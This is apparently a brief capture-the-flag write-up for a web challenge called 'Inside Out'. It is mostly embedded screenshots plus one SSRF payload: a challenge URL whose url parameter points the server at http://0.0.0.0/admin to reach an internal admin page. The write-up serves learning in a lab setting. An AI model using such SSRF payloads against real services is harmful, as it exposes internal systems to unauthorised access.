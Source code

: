 # Inside Out

![](../.gitbook/assets/image%20%2837%29.png)

![](../.gitbook/assets/image%20%2840%29.png)

![](../.gitbook/assets/image%20%2842%29.png)

![](../.gitbook/assets/image%20%2836%29.png)

```text
payload = https://web-inside-out-b3d9f3b9.chal-2021.duc.tf/request?url=http://0.0.0.0/admin
```

![](../.gitbook/assets/image%20%2834%29.png)

